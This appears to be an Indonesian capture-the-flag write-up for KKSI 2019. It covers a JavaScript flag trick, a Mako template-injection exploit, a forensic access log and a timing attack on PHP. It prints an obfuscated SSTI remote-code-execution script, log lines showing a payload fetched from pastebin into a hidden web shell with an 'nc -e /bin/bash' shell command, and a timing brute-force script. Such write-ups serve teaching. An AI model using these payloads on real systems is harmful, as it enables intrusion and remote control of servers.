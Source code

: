 ﻿## Web
### Tsunade Gambling Master
Deskripsi :

> http://202.148.2.243:20001
> You have maximum input on this challenge 3 attempts!

Solusi :
Saat dibuka situsnya, kami mencoba melihat source code dari challenge yang diberikan. Kami mencoba melihat di script Javascript yang diload.

`//It's not flag! Don't Submit it`
 `//I Warn you!`
`var kepla_flag="KKSI2019{",place_flag="Tr0ll1ng_th3_Us3r",penutup="}";function get_point_now(){var t=$("#point").text();return parseInt(t)}function generate_judi_server(t){return Math.round(Math.random()*t)}function genertae_judi_client(){return batas=generate_judi_server(100),Math.round(Math.random()*batas)}function ready_to_serve(){return place_flag.split("_")}function serve(t){var e=t;for($i=0;$i<e.length;$i++)$("#flag"+$i).html("<img src='./fl4g/"+e[$i]+".png'>")}$(document).on("click","#adu",()=>{var t=genertae_judi_client(),e=generate_judi_server(100);$("#client").text(t),$("#server").text(e);var n=get_point_now();t>e?$("#point").text(n+1):$("#point").text(n-1)}),$(document).on("click","#judii",()=>{get_point_now()>=133333333337?(console.log("I know you inspect element it!"),$("#flag").text(place_flag+" Don't Submit it Bratan! It's wrong one!")):$("#flag").text("Go Away. Hus Hus")});`

Setelah dibeautify, kami menemukan sesuatu yang menarik.
```
function ready_to_serve() {
    return place_flag.split("_")
}

function serve(t) {
    var e = t;
    for ($i = 0; $i < e.length; $i++) $("#flag" + $i).html("<img src='./fl4g/" + e[$i] + ".png'>")
}
```
Setelah kami perhatikan, ternyata fungsi diatas tidak dipanggil oleh siapapun. Namun, fungsi `serve()`meminta input dari suatu array. Sementara fungsi `ready_to_serve()` mengeluarkan suatu array yang memecah variabel `place_flag` menjadi array. Lalu, kami mencoba menggabungkan kedua fungsi tersebut dan menjalankan fungsi berikut di console dan flagnya pun keluar.
> `serve(ready_to_serve())`

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Tsunade_Gambling_Master/Tsunade%20-%201.png)
Flag : **KKSI2019{JScan_3asY_Troll1nG}**

### Mako Onii-Chan
Deskripsi :

> http://202.148.2.243:21201
> 
>[Main.py](https://drive.google.com/file/d/1HF3SKw4FrNcibCyUrQeaw84QO6XfPuGG/view)

Solusi :
Diberikan suatu file `main.py`, setelah kami analisa ternyata ini adalah file flask, maka kami mencoba melakukan SSTI. Setelah mencoba beberapa jenis SSTI, ditemukan payload yang bisa berjalan yaitu `${1+1}`. 

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Mako_Onii-chan/Mako%20-%201.png)

Dengan bentuk payloadnya, kami mengetahui bahwa ini dibangun dengan framework Mako. Setelah mencari-cari jenis payload yang bisa digunakan, kami menyadari bahwa kita bisa melakukan import dengan mengganti parameter import menjadi ascii per karakternya dan di `chr()`.

![enter image description here](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Mako_Onii-chan/Mako%20-%202.png)

Kami mencoba melakukan import subprocess untuk melakukan RCE dan ternyata bisa, dan akhirnya didapatkan flagnya.
```
import base64
import requests as r

exploit = '${__import__(chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)).getoutput(chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))}'

url = "http://202.148.2.243:21201/intro-gan"
name = exploit.encode('utf-32')
grup = base64.b64encode(name)
data = {'name': grup}
print(r.post(url, data=data).text)
```

![enter image description here](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Mako_Onii-chan/Mako%20-%203.png)

Flag : **KKSI2019{64_32_16_8_4_2_0}**

## Forensic

### Read the Log

Deskripsi :
>[Get Flag Here](http://202.148.2.243:30011/)
>
>[Read the Log](https://drive.google.com/file/d/1zujIwaWX3i9wcmCJX6nYT2o6xtwIWFOM)

Solusi :
Saat membaca `access.log` yang disediakan, kami menemukan sesuatu yang menarik.
>https://pastebin.com/raw/zNg9JQ12 -O .system.php HTTP/1.1" 200 1070166 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36"
>
>172.17.0.2 - - [21/Oct/2019:00:43:40 +0700] "GET /.system.php?f=system&p=id HTTP/1.1" 200 53 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36"
>
>172.17.0.2 - - [21/Oct/2019:00:45:00 +0700] "GET /.system.php?f=system&p=nc -lvp 1337 -e /bin/bash HTTP/1.1" 504 494 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36"

Terlihat ada request ke `.system.php` yang mencurigakan dan memanggil perintah bash seperti nc dan id. Maka kami mencoba mengunjungi halaman tersebut dan ternyata kami bisa melakukan shell_exec disana.

Setelah melakukan ls, kami mengetahui bahwa flagnya ada di `fl4g.txt` (Saat lomba, nama file aslinya adalah `flllllllaaaaaaaaaaaaaaaaaaaaaaaaaaa_g.txt` namun diganti saat penulisan writeup)

Kami melakukan cat dan flagnya pun ditemukan.
![enter image description here](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/Read_the_Log/Log%20-%201.png)
Flag : **KKSI2019{Emang_Sabar_Adalah_Kuncinya}** 

## Misc

### KKSI Lost The Key

Deskripsi :
> [Here](http://202.148.2.243:30001)

Solusi :
Pada link yang diberikan, ada kode PHP yang ditampilkan sebagai berikut :
```
`<?php  
include 'flag.php';  
  
$key = KEY;  
  
if(isset($_GET['time'])){  
$human = $_GET['time'];  
if(strlen($_GET['time']) == ( strlen($key) - 1)){  
	sleep(5);  
}  
  
if(strlen($_GET['time']) == strlen($key)){  
	if($human == $key){  
		echo FLAG; 
	}  
  
	for($i=0;$i<strlen($key); $i++){  
		if($human[$i] == $key[$i]){  
			sleep(3);  
		}  
	}  
}  
}  
  
  
  
show_source(__FILE__);`
```

Bila dilihat, ada 2 bagian dalam kode tersebut, yaitu cek panjang time dan cek isi time per karakter. Untuk cek panjang, kami memasukkan string sebarang dan diketahui bahwa pada panjang string = 2, terjadi `sleep(5)` yang menyebabkan waktu  loading lebih lama. Maka kami menciptakan kode di Python untuk melakukan loop untuk mencari string yang dibutuhkan untuk bisa menyamai `$key`.

Berikut ada kode yang kami buat. 
```
import requests as req, time
flag = ''
poss = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
while len(flag) != 3:
  for i in poss:
    if True :
      address = 'http://202.148.2.243:30001/?time={}{}{}'.format(flag, i, '|'*(2-len(flag)))
      start = time.time()
      r = req.get(address)
      res = r.text
      end = time.time()
      print('Trying : ', address)
      #print(d['search'])
      print(end - start)
      if end - start > 3*len(flag) + 3:
        flag += i
        print('Found!', i)
        break

```

Kami menemukan bahwa $key = 1Ap, maka kami masukkan di browser dan flagnya ditemukan.

![enter image description here](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/KKSI_2019/KKSI_Lost_the_Key/Key%20-%201.png)
Flag : **KKSI2019{Time_is_Money_Also_Time_is_flag}**
